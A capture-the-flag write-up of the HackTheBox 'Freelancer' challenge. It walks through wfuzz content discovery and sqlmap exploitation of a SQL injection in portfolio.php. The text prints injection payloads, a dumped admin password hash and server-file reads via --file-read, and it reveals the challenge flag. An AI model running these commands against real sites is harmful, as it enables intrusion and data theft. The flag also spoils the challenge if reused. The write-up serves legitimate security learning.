

# Freelancer
In this challenge, we are trying to find the flag from a portfolio website.


# TLDR
- Read the index page source and identified some URLs: */portfolio.php?id=3*, */mail/index.php*, */mail/contact_me.php*.
- Used `wfuzz` to identify more URLs that are hidden from the index: */administrat*, */vendor*.
- In */portfolio.php?id=3*, there was an SQL injection vulnerability. Used `sqlmap` to collect information of databases, tables, users etc.
- Again used `sqlmap`, this time, to retrieve files. In the end */administrat/panel.php* had the flag.

#### Keywords: `SQLi`, `sqlmap`

# How to get the flag?
I started checking the source of the index page. There were couple of interesting comments in the source that I was be able find references to some URLs: */portfolio.php?id=3*, */mail/index.php*, */mail/contact_me.php*.



Before diving into the pages, I decided to send a form request with some dummy input to check the behavior of "contact me" form.


But, soon enough I got an error saying that the mail server was not responding. I was wondering what could be the reason.


I checked the index of */mail*, and got a list of files. There was only *contact_me.php*. I tried to see the contents of *contact_me.php*, but the server returned HTTP error 500. Unfortunately, I could not get anything interesting from here.


Later, I moved on collecting more information from the initial page to see whether if there was any other pages. I used `wfuzz` and `SecLists` wordlist for web content discovery [1,2].


```bash
$ wfuzz -c -w SecLists/Discovery/Web-Content/common.txt --hc 404 http://206.189.17.51:30500/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://206.189.17.51:30500/FUZZ
Total requests: 4661

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                            
=====================================================================

000000011:   403        11 L     32 W       300 Ch      ".htaccess"                                                        
000000012:   403        11 L     32 W       300 Ch      ".htpasswd"                                                        
000000010:   403        11 L     32 W       295 Ch      ".hta"                                                             
000000518:   301        9 L      28 W       329 Ch      "administrat"                                                      
000001294:   301        9 L      28 W       321 Ch      "css"                                                              
000001726:   200        41 L     331 W      31606 Ch    "favicon.ico"                                                      
000002135:   301        9 L      28 W       321 Ch      "img"                                                              
000002157:   200        1 L      870 W      9541 Ch     "index.php"                                                        
000002313:   301        9 L      28 W       320 Ch      "js"                                                               
000002526:   301        9 L      28 W       322 Ch      "mail"                                                             
000003522:   200        0 L      0 W        0 Ch        "robots.txt"                                                       
000003662:   403        11 L     32 W       304 Ch      "server-status"                                                    
000004329:   301        9 L      28 W       324 Ch      "vendor"                                                           

Total time: 24.39959
Processed Requests: 4661
Filtered Requests: 4648
Requests/sec.: 191.0277
```

From `wfuzz` I got '*/administrat*' payload, and some other stuff. This was not something that I had seen earlier. I checked the URL and,


I got an admin panel. I thought, this was probably where I could get the flag.


Then, I moved on making a request to */portfolio.php?id=3*. Giving an *id* between 1-3, returned a text.

And other values, like *?id=123*, returned an empty text. There was probably a database. Could there be an SQL injection vulnerability?


Yup there was. I used `sqlmap` for automatic SQL injection [3]. It is an awesome tool, it detected everything by itself and returned all the useful information:

```bash
$ sqlmap -u http://206.189.17.51:30500/portfolio.php?id=1 --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:01:34 /2021-01-01/

[17:01:34] [INFO] testing connection to the target URL
[17:01:34] [INFO] checking if the target is protected by some kind of WAF/IPS
[17:01:34] [INFO] testing if the target URL content is stable
[17:01:35] [INFO] target URL content is stable
[17:01:35] [INFO] testing if GET parameter 'id' is dynamic
[17:01:35] [INFO] GET parameter 'id' appears to be dynamic
[17:01:35] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable
[17:01:35] [INFO] testing for SQL injection on GET parameter 'id'
[17:01:35] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[17:01:36] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="sit")
[17:01:38] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[17:01:47] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[17:01:47] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[17:01:47] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[17:01:47] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[17:01:47] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[17:01:47] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[17:01:47] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[17:01:47] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[17:01:47] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[17:01:48] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[17:01:48] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[17:01:48] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[17:01:48] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[17:01:48] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[17:01:48] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[17:01:48] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[17:01:48] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[17:01:48] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[17:01:48] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[17:01:48] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[17:01:48] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[17:01:48] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[17:01:48] [INFO] testing 'Generic inline queries'
[17:01:48] [INFO] testing 'MySQL inline queries'
[17:01:49] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[17:01:49] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[17:01:49] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[17:01:49] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[17:01:49] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[17:01:49] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[17:01:49] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[17:01:59] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[17:01:59] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[17:01:59] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[17:01:59] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[17:01:59] [INFO] target URL appears to have 3 columns in query
[17:02:00] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 69 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 1466=1466

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 2158 FROM (SELECT(SLEEP(5)))dlLn)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,CONCAT(0x7162716a71,0x75434957664547777a4e7548474f546166475a737a636d6c4846585769544549554541726969764e,0x71787a7671),NULL-- -
---
[17:02:08] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[17:02:08] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[17:02:08] [INFO] fetching current database
[17:02:08] [INFO] fetching tables for database: 'freelancer'
[17:02:08] [INFO] fetching columns for table 'portfolio' in database 'freelancer'
[17:02:08] [INFO] fetching entries for table 'portfolio' in database 'freelancer'
Database: freelancer
Table: portfolio
[3 entries]
+------+-------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id   | name        | content                                                                                                                                                                                                                                     |
+------+-------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1    | Log Cabin 1 | Lorem ipsum dolor sit amet, consectetur adipisicing elit. Mollitia neque assumenda ipsam nihil, molestias magnam, recusandae quos quis inventore quisquam velit asperiores, vitae? Reprehenderit soluta, eos quod consequuntur itaque. Nam. |
| 2    | Log Cabin 2 | Lorem ipsum dolor sit amet, consectetur adipisicing elit. Mollitia neque assumenda ipsam nihil, molestias magnam, recusandae quos quis inventore quisquam velit asperiores, vitae? Reprehenderit soluta, eos quod consequuntur itaque. Nam. |
| 3    | Log Cabin 3 | Lorem ipsum dolor sit amet, consectetur adipisicing elit. Mollitia neque assumenda ipsam nihil, molestias magnam, recusandae quos quis inventore quisquam velit asperiores, vitae? Reprehenderit soluta, eos quod consequuntur itaque. Nam. |
+------+-------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[17:02:08] [INFO] table 'freelancer.portfolio' dumped to CSV file '/home/vscode/.sqlmap/output/206.189.17.51/dump/freelancer/portfolio.csv'
[17:02:08] [INFO] fetching columns for table 'safeadmin' in database 'freelancer'
[17:02:08] [INFO] fetching entries for table 'safeadmin' in database 'freelancer'
Database: freelancer
Table: safeadmin
[1 entry]
+------+----------+--------------------------------------------------------------+---------------------+
| id   | username | password                                                     | created_at          |
+------+----------+--------------------------------------------------------------+---------------------+
| 1    | safeadm  | $2y$10$s2ZCi/tHICnA97uf4MfbZuhmOZQXdCnrM9VM9LBMHPp68vAXNRf4K | 2019-07-16 20:25:45 |
+------+----------+--------------------------------------------------------------+---------------------+

[17:02:08] [INFO] table 'freelancer.safeadmin' dumped to CSV file '/home/vscode/.sqlmap/output/206.189.17.51/dump/freelancer/safeadmin.csv'
[17:02:08] [INFO] fetched data logged to text files under '/home/vscode/.sqlmap/output/206.189.17.51'
[17:02:08] [WARNING] you haven't updated sqlmap for more than 273 days!!!

[*] ending @ 17:02:08 /2021-01-01/
```

I thought to enter the username and password I got from SQLi to the admin panel. But it did not work, probably because password was hashed. It also looks like a pretty strong encryption. So, I decided to not even attempt to crack it.

 With the joy of learning a new tool, `sqlmap`, I found out that one can even retrieve some files using `--common-files` or `--file-read` arguments, wow. I tried that immediately, and saw that I could retrieve the source of the webpage, e.g.,  */var/www/html/index.php*


```bash
$ sqlmap -u http://206.189.17.51:30500/portfolio.php?id=1 --common-files

...
...
[*] /home/vscode/.sqlmap/output/206.189.17.51/files/_etc_profile
[*] /home/vscode/.sqlmap/output/206.189.17.51/files/_etc_resolv.conf
[*] /home/vscode/.sqlmap/output/206.189.17.51/files/_etc_sysctl.conf
[*] /home/vscode/.sqlmap/output/206.189.17.51/files/_var_www_html_index.php
[*] /home/vscode/.sqlmap/output/206.189.17.51/files/_etc_apache2_apache2.conf
[*] /home/vscode/.sqlmap/output/206.189.17.51/files/_etc_hosts.allow
[*] /home/vscode/.sqlmap/output/206.189.17.51/files/_etc_hosts.deny
...
```

There was nothing interesting in *index.php*. Then, I checked the other .php files that I discovered earlier: *portfolio.php*, */mail/contact_me.php*, and */administrat/index.php*.

In *portfolio.php*, I could see the SQL injection on `id` parameter clearly. There was also `require_once` call to *administrat/include/config.php*, which had the mysql database connection call. But, still no flag.
```bash
$ sqlmap -u http://206.189.17.51:30500/portfolio.php?id=1 --file-read=/var/www/html/portfolio.php --batch
$ cat /home/vscode/.sqlmap/output/206.189.17.51/files/_var_www_html_portfolio.php

<?php
// Include config file
require_once "administrat/include/config.php";
?>
  <link rel="icon" href="favicon.ico" type="image/x-icon">
  <link href="vendor/fontawesome-free/css/all.min.css" rel="stylesheet" type="text/css">
  <!-- Portfolio Modals -->

  <!-- Portfolio Modal 1 -->
 
    <div class="modal-dialog modal-xl" role="document">
      <div class="modal-content">
 
        <div class="modal-body text-center">
          <div class="container">
            <div class="row justify-content-center">
              <div class="col-lg-8">
                <!-- Portfolio Modal - Title -->
                <!-- Icon Divider -->
                <div class="divider-custom">
 
                <!-- Portfolio Modal - Image -->
                
                <!-- Portfolio Modal - Text -->
                <p class="mb-5"><?php
 
$id = isset($_GET['id']) ? $_GET['id'] : '';
 
$query = "SELECT * FROM portfolio WHERE id = $id";
if ($result = mysqli_query($link, $query)) {

    /* fetch associative array */
    while ($row = mysqli_fetch_row($result)) {
        printf ("%s - %s\n", $row[1], $row[2]);
    }

    /* free result set */
    mysqli_free_result($result);
}

/* close connection */
mysqli_close($link);
?></p>
 
 
            </div>
          </div>
        </div>
      </div>
    </div>
  </div>
```

*/mail/contact_me.php* also did not have anything interesting. In fact, mail server indeed was not working properly for obvious reasons.

```bash
$ cat /home/vscode/.sqlmap/output/206.189.17.51/files/_var_www_html_mail_contact_me.php

<?php
// Check for empty fields
if(empty($_POST['name']) || empty($_POST['email']) || empty($_POST['phone']) || empty($_POST['message']) || !filter_var($_POST['email'], FILTER_VALIDATE_EMAIL)) {
  http_response_code(500);
  exit();
}

$name = strip_tags(htmlspecialchars($_POST['name']));
$email = strip_tags(htmlspecialchars($_POST['email']));
$phone = strip_tags(htmlspecialchars($_POST['phone']));
$message = strip_tags(htmlspecialchars($_POST['message']));

// Create the email and send the message
$to = "yourname@yourdomain.com"; // Add your email address inbetween the "" replacing yourname@yourdomain.com - This is where the form will send a message to.
$subject = "Website Contact Form:  $name";
$body = "You have received a new message from your website contact form.\n\n"."Here are the details:\n\nName: $name\n\nEmail: $email\n\nPhone: $phone\n\nMessage:\n$message";
$header = "From: noreply@yourdomain.com\n"; // This is the email address the generated message will be from. We recommend using something like noreply@yourdomain.com.
$header .= "Reply-To: $email";

if(!mail($to, $subject, $body, $header))
  http_response_code(500);
?>
```

The final attempt to retrieve */administrat/index.php* revealed that on a successful login, user is redirected to */administrat/panel.php*. We are in the end game now.

```bash
$ cat /home/vscode/.sqlmap/output/206.189.17.51/files/_var_www_html_administrat_index.php

<?php
// Initialize the session
session_start();
 
// Check if the user is already logged in, if yes then redirect him to welcome page
if(isset($_SESSION["loggedin"]) && $_SESSION["loggedin"] === true){
  header("location: panel.php");
  exit;
}
 
// Include config file
require_once "include/config.php";
 
// Define variables and initialize with empty values
$username = $password = "";
$username_err = $password_err = "";
 
// Processing form data when form is submitted
if($_SERVER["REQUEST_METHOD"] == "POST"){
 
    // Check if username is empty
    if(empty(trim($_POST["username"]))){
        $username_err = "Please enter username.";
    } else{
        $username = trim($_POST["username"]);
    }
    
    // Check if password is empty
    if(empty(trim($_POST["password"]))){
        $password_err = "Please enter your password.";
    } else{
        $password = trim($_POST["password"]);
    }
    
    // Validate credentials
    if(empty($username_err) && empty($password_err)){
        // Prepare a select statement
        $sql = "SELECT id, username, password FROM safeadmin WHERE username = ?";
        
        if($stmt = mysqli_prepare($link, $sql)){
            // Bind variables to the prepared statement as parameters
            mysqli_stmt_bind_param($stmt, "s", $param_username);
            
            // Set parameters
            $param_username = $username;
            
            // Attempt to execute the prepared statement
            if(mysqli_stmt_execute($stmt)){
                // Store result
                mysqli_stmt_store_result($stmt);
                
                // Check if username exists, if yes then verify password
                if(mysqli_stmt_num_rows($stmt) == 1){                    
                    // Bind result variables
                    mysqli_stmt_bind_result($stmt, $id, $username, $hashed_password);
                    if(mysqli_stmt_fetch($stmt)){
                        if(password_verify($password, $hashed_password)){
                            // Password is correct, so start a new session
                            session_start();
                            
                            // Store data in session variables
                            $_SESSION["loggedin"] = true;
                            $_SESSION["id"] = $id;
                            $_SESSION["username"] = $username;                            
                            
                            // Redirect user to welcome page
                            header("location: panel.php");
                        } else{
                            // Display an error message if password is not valid
                            $password_err = "The password you entered was not valid.";
                        }
                    }
                } else{
                    // Display an error message if username doesn't exist
                    $username_err = "No account found with that username.";
                }
            } else{
                echo "Oops! Something went wrong. Please try again later.";
            }
        }
        
        // Close statement
        mysqli_stmt_close($stmt);
    }
    
    // Close connection
    mysqli_close($link);
}
?>
 
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Freelancer Login</title>
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.css">
  <link rel="icon" href="../favicon.ico" type="image/x-icon">
    <style type="text/css">
        body{ font: 14px sans-serif; }
        .wrapper{ width: 350px; padding: 20px; }
    </style>
</head>
<body>
    <div class="wrapper">
        <h2>Login</h2>
        <p>Please fill in your credentials to login.</p>
        <form action="<?php echo htmlspecialchars($_SERVER["PHP_SELF"]); ?>" method="post">
            <div class="form-group <?php echo (!empty($username_err)) ? 'has-error' : ''; ?>">
                <label>Username</label>
                <input type="text" name="username" class="form-control" value="<?php echo $username; ?>">
                <span class="help-block"><?php echo $username_err; ?></span>
            </div>    
            <div class="form-group <?php echo (!empty($password_err)) ? 'has-error' : ''; ?>">
                <label>Password</label>
                <input type="password" name="password" class="form-control">
                <span class="help-block"><?php echo $password_err; ?></span>
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
            </div>
        </form>
    </div>    
</body>
</html>
```

I checked the content of */administrat/panel.php*, and boom there it was the flag:

```bash
$ sqlmap -u http://206.189.17.51:30500/portfolio.php?id=1 --file-read=/var/www/html/administrat/panel.php --batch
$ cat ~/.sqlmap/output/206.189.17.51/files/_var_www_html_administrat_panel.php 

<?php
// Initialize the session
session_start();
 
// Check if the user is logged in, if not then redirect him to login page
if(!isset($_SESSION["loggedin"]) || $_SESSION["loggedin"] !== true){
    header("location: index.php");
    exit;
}
?>
 
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Welcome</title>
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.css">
  <link rel="icon" href="../favicon.ico" type="image/x-icon">
    <style type="text/css">
        body{ font: 14px sans-serif; text-align: center; }
    </style>
</head>
<body>
    <div class="page-header">
        <h1>Hi, <b><?php echo htmlspecialchars($_SESSION["username"]); ?></b>. Welcome to our site.</h1><b><a href="logout.php">Logout</a></b>
<br><br><br>
        <h1>HTB{s4ff_3_1_w33b_fr4__l33nc_3}</h1>
    </div>
</body>
</html>
```


# References
- [1] https://tools.kali.org/web-applications/wfuzz
- [2] https://github.com/danielmiessler/SecLists
- [3] http://sqlmap.org/